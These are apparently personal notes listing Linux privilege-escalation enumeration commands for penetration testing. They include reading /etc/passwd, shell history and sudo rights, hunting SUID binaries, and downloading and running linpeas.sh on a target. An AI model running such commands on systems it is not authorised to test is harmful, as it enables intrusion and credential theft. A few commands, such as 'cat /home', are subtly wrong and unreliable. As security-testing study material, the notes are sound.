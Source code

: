 Just use this: 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

## Operating system, version and architecture
```bash
cat /etc/issue
```
```bash
cat /etc/os-release
```
```bash
uname -r
```
List loaded kernel drivers:
```bash
lsmod
```
Display kernel driver info:
```bash
/sbin/modinfo $(KERNEL_NAME)
```
## Current User Groups
```bash
id
```
## Services
```bash
ps aux
```
```
<insert services here>
```
## Users
```bash
cat /home
```
```
<insert home directories here>
```
```bash
cat /etc/passwd
```
```
<insert /etc/passwd here>
```
## History
```bash
cat ~/.bash_history
```
```
<insert bash history here>
```
## List Sudo Permissions
```bash
sudo -l
```
```
<insert sudo permissions here>
```
## Environment Variables
```bash
env
```
```bash
cat .bashrc
```
## Network Information
```bash
ip a
```
```bash
route
```
Or
```bash
routel
```
...depending on distro.
```bash
ss -anp
```
### Firewall Rules
```bash
ls /etc/iptables
```
```bash
ls /etc | grep "ip"
```
## SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
## Cronjobs
```bash
crontab -l
```
```bash
sudo crontab -l
```
```bash
cat /etc/crontab
```
```bash
ls -lah /etc/cron*
```
## Enumerate installed packages
Debian:
```bash
dpkg -l
```
## Every writeable directory by current user
```bash
find / -writable -type d 2>/dev/null
```
## List mounted filesystems
List drives that will be mounted on boot:
```bash
cat /etc/fstab
```
List all mounted filesystems:
```bash
mount
```
List all available disks:
```bash
lsblk
```
# Linpeas
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/2021.02.20/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```
# unix-privesc-check
Transfer unix-privesc-check to target machine:
```bash
cp /usr/bin/unix-privesc-check .
```
Run on target machine:
```bash
./unix-privesc-check standard > output.txt
```
